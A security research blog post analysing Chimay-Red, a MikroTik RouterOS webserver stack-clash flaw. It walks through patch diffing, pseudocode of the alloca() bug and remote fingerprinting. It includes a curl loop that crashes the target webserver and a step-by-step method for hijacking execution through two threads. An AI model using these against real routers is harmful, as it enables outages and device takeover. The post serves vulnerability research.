Chimay-Red
This post outlines and presents the rediscovery, vulnerability analysis and exploitation of a zero-day vulnerability that was originally discovered and exploited by the CIA's "Engineering Development Group"; remotely targeting MikroTik's RouterOS embedded operating system that was discovered during the "Vault 7" leak via WikiLeaks in March of 2017.
NOTE: I originally posted this article on the blog over at the company I work for: Original Article
Brief History and Background
MikroTik (MK) is a Latvian company founded in 1996 and is known for its routers, switches and wireless network equipment. MikroTik is primarily famous for its embedded routing OS/hardware ecosystem: RouterOS and RouterBOARD.
RouterOS is a uClibC Linux 3.3.5 based embedded OS with a proprietary software based routing suite and tool set written in C++ called "NOVA", and is MK's OS for nearly all of their hardware routing - switching products.
RouterOS was originally designed for running on the RouterBOARD line of products, but as of the last few years, MK has opened the ability to run RouterOS on any almost any x86 hypervisor, baremetal x86 and more recently a AWS cloud offering.
What really makes RouterOS and RouterBOARD an attractive option for many is its price point versus the competition with comparable performance and often extra features. A Cisco switch supporting MPLS will run you a few thousand dollars, while the competing MK offering with MPLS is 4x cheaper on average. Although managing an advanced configuration of RouterOS can be a bit of a curve if you are not familiar with systems like Cisco's IOS
Note: The NOVA suite will not run outside of RouterOS (Eg. docker container) without serious hacks, which I will show in a later post. Having done this has opened up an easier method for exploit fuzzing and testing across many architectures and versions using QEMU or other instrumentable architecture virtualization.

RouterBOARD 850gx3
Plausible causes of interest (speculation)
Why might the CIA be interested in exploiting these devices? Well for starters at any given time, between 1,500,000 and 2,000,000 MK RouterOS devices are exposed on the public net, as seen via shodan.io. These figures are on par with Cisco's exposure numbers and typically three times more exposed than D-Link and other usual suspects.
Censys additionally reports that around 50,000 RouterOS devices currently have the HTTP management interface exposed to the public net. Top RouterOS device host countries include (in-order): Brazil, China, Indonesia and Russia.

shodan.io device map: 1 == 1000 devices
In combination with MK's current deployed scale globally and population in known targeted countries it seems reasonable that MK would be a prime candidate for such exploit development by a nation state. Similarly, found within the leaks is documentation for an exploit kit that compromises the AVTech Network Video Recorder code-named "Mealybug". As of posting this article, AVTech devices are the second most popular shodan search term, with around 130,000 results worldwide; Further re-enforcing the idea that the CIA has interest in developing exploits for very popular consumer hardware.
Kaspersky also shows claims that tooling to exploit MK has been around "for a long time", as seen in the "Slingshot" APT report FAQ published this year.
Vault 7
Vault 7 aka. "Year Zero" was a mega-dump of approximately 23 projects and other various artifacts on Tuesday March 7th, 2017 from the CIA's Engineering Development Group (EDG) division at the Center for Cyber Intelligence (CCI)), a special development branch belonging to the CIA's Directorate for Digital Innovation (DDI) in Langley, Virginia. Comprising 8,761 documents and files, the leaks detailed abilities to compromise cars, smart TVs, browsers, phones and operating systems. Most, if not all, leaked projects were developed to preform electronic surveillance and/or cyber-warfare. Although no vulnerability sources or binaries were released, the leaked documentation has given attackers significant direction in rediscovering many of the same exploits.
The Engineering Development Group is responsible for building certain notable tools as discovered in the leaks, such as: Hive, Cutthroat, Chimay-Red, Dark Matter, and Sonic Screwdriver. These tools were distributed to operators and partners when conducting proxy cyber-activities in regions where the US may face legal issues the partner state does not have as stringent laws against.
Chimay-Red
Background
Chimay-Red is a zero-day exploit for the HTTP management/configuration/proxy webserver called www in MK RouterOS versions 6.x, originally targeting MIPS, MIPSEL, PPC, and x86 architectures. The exploit abuses a multithreaded remote stack collision vulnerability due to an implementation error with the usage of the compiler built-in alloca() by "allocating" a untrusted remotely supplied size value during a content-length header check. It is believed that Chimay-Red was originally used to implant HIVE or TinyShell onto the target system, as noted in the "hive-UsersGuide.pdf" document under: "7.1 (S) Installing Hive on MikroTik MIPS RouterOS 6.x using Chimay-Red".
Documentation and version release notes suggest that development of the exploit was completed around 07/2015 (pg. 29 hive-UsersGuide.pdf):
V2.9 (07/01/2015)
• Adds a user-defined directory path for the .config and .log files to avoid read-only memory.
• Adds support for MikroTik 6.x.
Also found within hive-UsersGuide.pdf pg. 23 and image2015-4-27%2010:46:48.png is usage and other interesting information about Chimay-Red's inner workings:
{kind=link}
Exploit Usage:

Operator usage Python traceback screenshot:

Notice the hierarchy of the traceback from the Python interpreter. Arguments are passed into the entrypoint, which chooses the exploit module within ChimayRed_v3.7/bin/libs/<arch>/Exploit.py based off of detected or selected architecture and throws the payload in the given module to the given host and port.
The throw_v6() (exploit version 6.x) function seems to use multiple sockets and predetermined or at least stored content-length and content values to some HTTP POST-able endpoint, which is a interesting hint towards where we might find this bug in the webserver binary.
Unfortunately, due to the lack of information available within the leaks pertaining the Chimay-Red exploit, I was not unable to recover any more useful background or hints. However, I was confident that I had learned enough to tackle exploiting the vulnerability myself.
Chimay-Red (my turn)
Up to the challenge to try and see if I could match what these vulnerability researchers had accomplished in secret and more, I was excited to get started hunting. I had a couple other things going for me as well at the time, some MK MIPS based devices on-hand, the Python traceback screenshot and manuals from the leaks and a patched version of RouterOS released by MK fixing the said vulnerability:

MK 6.38.5 release notes - link
Initial Goals
I didn't just want to replicate the exploit exactly, I wanted to make it even better. So I created a set of requirements for myself of what I think my version of the exploit should accomplish.
-
The replica exploit will:
- At minimum, conform to the operators usage guide.
- Support the same architectures and commands.
- Note: Specific supported 6.x versions are unknown via the leaks.
-
The replica exploit should:
- Support all 6.x versions and architectures
- Tooling for enumerating, downloading, analyzing and cataloging system firmware
- Needed for building ROP-chains and store metadata for approx ~200 different FW versions
- Containerize and optionally emulate any system firmware for fuzzing and testing.
On The Hunt
Extracting FW images:
Binwalk can help us make quick work of identifying magic bytes within the firmware files in-order to extract the root SquashFS filesystem.
$ binwalk -e ./routeros-<architecture>-<version>.npk ./routeros-<architecture>-<version>.npk
4096 0x1000 Squashfs filesystem, little endian, version 4.0, compression:xz, size: 7109576 bytes, 1034 inodes, blocksize: 262144 bytes, created: 2016-10-05 12:07:28
Webserver Binary Location:
$ find $firmware-images.extracted/squashfs-root -name "www" -type f
firmware-images.extracted/squashfs-root/nova/bin/www
$ file $firmware-images.extracted/squashfs-root/nova/bin/www
www: ELF 32-bit LSB executable, MIPS, MIPS32 rel2 version 1 (SYSV), dynamically linked, interpreter /lib/ld-uClibc.so.0, stripped
WWW Reverse Engineering Notes
Full reverse engineering analysis of the www webserver binary is outside the scope of this post. Although I will provide some important notes:
- One thread per socket connection.
- Each connection is allocated 128KiB (0x20000) of stack space per thread
- This is set by
pthread_attr_setstacksizeinmain()
- This is set by
- Each thread stack space is allocated ontop on the previous thread.
| |
^-------------^ < Thread2 ESP
| |
| |
| Thread1 |
| |
^-------------^ < Thread1 ESP
| |
| |
| Thread0 |
| |
^-------------^ < Thread0 ESP
- Automatically restarted on crash after three seconds
- The
loaderarbiter (/nova/bin/loader) controls this via signal handling and PID tracking.
- The
ELF Mitigations:
| Architecture | NX | CANARY | PIE | RELRO |
|---|---|---|---|---|
| x86 | YES | NO | NO | NO |
| ARM | YES | NO | NO | NO |
| POWERPC | YES | NO | NO | NO |
| SMIPS | NO | NO | NO | NO |
| MMIPS | NO | NO | NO | NO |
| MIPSBE | NO | NO | NO | NO |
| TILE | NO | NO | NO | NO |
Analyzing the difference with IDA and BinDiff
By looking at the difference in the assembled sections of the binary of the known vulnerable version and the known fixed version gave a clear look into what exactly has been patched to fix the vulnerability.
Note: A good BinDiff trick is to look for lowest similarity with high confidence

6.38.4 versus 6.38.5 BinDiff subroutine similarity chart
It appears Request::readPostData(int32_t arg1, int32_t arg2) would be a prime candidate to diff due it being the function with the highest confidence rating of a altered subroutine at a score of "0.82".

Left: 6.38.4 (x86) | Right: 6.38.5 (x86)
I could not get IDA to produce psuedocode for the subroutine, so instead I have hand written it below (correct me if wrong, please):
int header;
int recv_len;
int *alloca_sp
int content_length_value = 0;
char *content_length;
// Block until request received
recv_len = sock::recv(32768);
// Set the name of the header we are looking for
string::string(&content_length, "content_length");
// Grab given header_name given the raw request.
header = Headers::getHeader(&content_length, &content_length_value);
if (!header) {
goto exit;
} else if (recv_len == 0) {
goto exit;
} else if (recv_len < content_length_value) {
goto exit;
}
// Stack colision vulnerability due to insufficient content_length_value filtering as seen above.
// This call is optimized to "sub eax, esp" with most compilers.
alloca_sp = alloca(content_length_value);
// Read content_length_value bytes from socket and write
// into newly likely improperly allocated stack space. (SIGSEGV)
istream::read(alloca_sp, content_length_value)
So what's the vulnerability?
Since no filtering/conditionals are happening to ensure that the content-length_value does not exceed the thread stack page size limits, the vulnerability could be triggered by passing a negative number into the content-length header. This results in a alloca() *size argument far exceeding the size of the current connection thread stack frame size of 128KiB during a logical AND of the size value to enforce stack alignment.
alloca() in-lined assembly snippet from readPostData():
8055a56: 8d 42 10 lea eax,[edx+0x10] << load effectively content_length_value from edx+0x10 into eax
8055a59: 83 e0 f0 and eax,0xfffffff0 << AND content_length_value to enforce stack alignment at mutliples of 16 bytes
8055a5c: 29 c4 sub esp,eax << "allocate" space by subtracting the stack pointer (esp) by content_legth_value
Example alloca() alignment in Python:
>>> content_length_value = -1
>>> (content_length_value - 0x10) & 0xFFFFFFF0
4294967264
As you can see in the example alignment calculation, due to the logical AND preformed on the content_length_value to enforce the stacksize to be in alignment with STACK_ALIGN (16 bytes on most architectures), an integer overflow has occurred. This will cause alloca() to attempt to subtract the stack pointer by a massive amount, exhausting additional thread stack space causing the webserver to SIGSEGV when that unallocated memory is improperly accessed during the next threaded connection or by other arbitrary access.
The patched version ensures no such overlaps can occur by first validating the content_length_value and resizing before reaching alloca().
Identifying a POST method URL endpoint on the webserver:
To discover a URL endpoint on the webserver that I could actually POST arbitrary data into, I fired up WireShark and browsed to the login page of the management server and logged in. This shows a POST endpoint available in the working directory called /jsproxy:

PoC ()
At this point we should have a proof of concept that we can use to test if the target webserver crashes. Simply passing a negative one into the content_length header should be enough
to wrap the integer and overallocate to crash the server. To test, we can craft this header with CURL in a POST request and spam the webserver with it in a loop :).
CURL PoC:
while ; do curl -X POST -H "Content-Length: -1" -d '{"foo":"bar"}' http://<target>:80/jsproxy && sleep 0.5; done
ASCIInema PoC demo:
As you can see, the webserver crashes and is automatically restarted every three seconds.
Building the Exploit
For a test target, I just installed RouterOS within VirtualBox and bound the first interface to a host-only adapter. I won't be covering this in particular, in-depth instructions can be found on Google.
Most of the tools I used in this section and recommend others to use for embedded Linux exploit development/research:
Getting a debugger on the target
I'm going to need a debugger on my target in-order to further understand and analyze the crash before going any further.
This is a fairly simple and straightforward process thanks to MK enabling something called devel-login, which will allow us to gain a root shell.
- Mount both partitions from RouterOS Virtual Disk
$ mount /dev/sda1 /mnt/disk1
$ mount /dev/sda2 /mnt/disk2
- Create a file called
devel-loginin /dev/disk2/etc/
$ touch /dev/disk2/etc/devel-login
- Copy uClibC compiled gdbserver to
/mnt/disk1/flash/bin
$ cp ./gdbserver /mnt/disk/flash/bin
- Connect over telnet to target and login as
devel-login, blank password:
MikroTik 6.38.4 (stable)
MikroTik Login: devel-login
Password:
BusyBox v1.00 (2017.03.02-08:29+0000) Built-in shell (ash)
Enter 'help' for a list of built-in commands.
#
- Run the gdbserver previously copied into
/flash/bin/gdbserver.i686:
$ /flash/bin/gdbserver 0.0.0.0:4444 --attach $(pidof www)
You can now do remote debugging with GDB:
$ gdb -q
gdb-peda$ target remote 192.168.56.124:4444
Exploit Building Preconditions and Requirements
To avoid NX (non-executable) memory protections and ASLR (Address-Space-Layout-Randomization) on (x86, ARM, POWERPC), typical return-oriented techniques can be employed to reuse existing executable memory once execution flow via the IP (Instruction Pointer) is controlled. Therefore on systems without NX applied (MIPS* and TILE); NX does not need to be bypassed and has the ability to execute code on the stack. For my purposes I will be using a ROP (Return-Oriented-Programming) chain every time for every architecture regardless. Why? Because why not? ROP chains work on both systems with and without NX protections, can't hurt ¯_(ツ)_/¯.
But what this still means is the attacker (me) must have the target version of webserver (www) present to gather instruction offsets for ROP. This is where MikroDB comes in as you will see shortly in the post.
Detecting architecture remotely
Architecture is discovered remotely via a protocol called MNDP (MikroTik Neighbor Discovery Protocol).
The MikroTik Neighbor Discovery Protocol (MNDP) eases network configuration and management
by enabling each MikroTik router to discover other connected MikroTik routers and learn
information about the system along with features which are enabled. The MikroTik routers
can automatically use learned information to set up some features with minimal or no configuration.
MNDP features:
works on IP level connections
works on all non-dynamic interfaces
distributes basic information on the software version
distributes information on configured features that should interoperate with other MikroTik routers
The type of information usually associated with MNDP packets are:
- age
- address
- identity
- interface(s)
- mac-address
- platform
- software-id
- unpack version
- uptime,
- hardware info
To take use of MNDP for detecting the target architecture, its usage is simplified as so:
- Send four null bytes ('\0\0\0\0') to
255.255.255.255:5678. - Wait a little while.
- Receive information back on
0.0.0.0:5678.
Detecting version remotely
Detecting the remote version is simple for majority of the exposed services.
Here's a few:
-
HTTP
- Version string in HTML GET request data from maintenance webpage
-
FTP
- Version string in banner
220 MikroTik FTP server (MikroTik 6.38.4) ready
- Version string in banner
-
TELNET
- Version string in banner
MikroTik v6.38.4 (stable)
- Version string in banner
-
MNDP
- Version string in version entry within MNDP packet.
The obvious caveat of using MNDP to retrieve this information, is that the attacker is required to be within the targets subnet.
Abusing alloca(); a multithreaded tango
man 3 alloca:
void *alloca(size_t size)
...
The alloca() function allocates size bytes of space in the stack frame of the caller.
If the allocation causes stack overflow, program behavior is undefined.
The procedure is as follows:
- Two socket connections to the webserver are established, causing
wwwto create two threads to handle the connections. Both threads are expecting HTTP headers and so they are both blocking on a read operation.
Note: Gray represents the space already taken up on the stack for existing data.

- Thread1 is sent HTTP headers with an HTTP Content-Length string equivalent to 0x29000 (THREAD_STACK_SIZE +
len(payload)+ SAFE_SPACE). Once headers are received, Thread1's initial read operation finishes. It performs the alloca, subtracting its stack pointer by 0x29000, which places its pointer for *buf at 0x8000 bytes down from the top of Thread2's stack:

- Thread1 is then sent approximately 0x1000 bytes of the 0x29000 it is expecting alligned for istream::read(). This advances the *buf pointer index used by istream::read() up the stack, closer to Thread2's current stack pointer. Thread1 continues waiting as it has not yet received the full amount of data expected (0x29000).

- Thread2, still waiting on its initial network read, is sent HTTP POST headers with a Content-Length string equivalent to approximately the size of the payload (0x8000 as an example), which it uses for its own alloca, subtracting from its stack pointer. Coordinating this length carefully places it precisely where the *buf pointer in Thread1 istream::read() currently points, in the below diagram I have placed it just above so it's visible. Thread2 then calls istream::read() to receive its HTTP Content-Data, causing it to block while waiting to read in data.

- Thread1 is then sent the payload data it is waiting to receive, which is stored starting at its current *buf index in istream::read(), and overwrites where Thread2's stored return address is for istream::read().

- A return from istream::read() can then be triggered by simply closing the connection. Once Thread2 returns, EIP is restored from the overwritten return address value and execution flow is controlled.
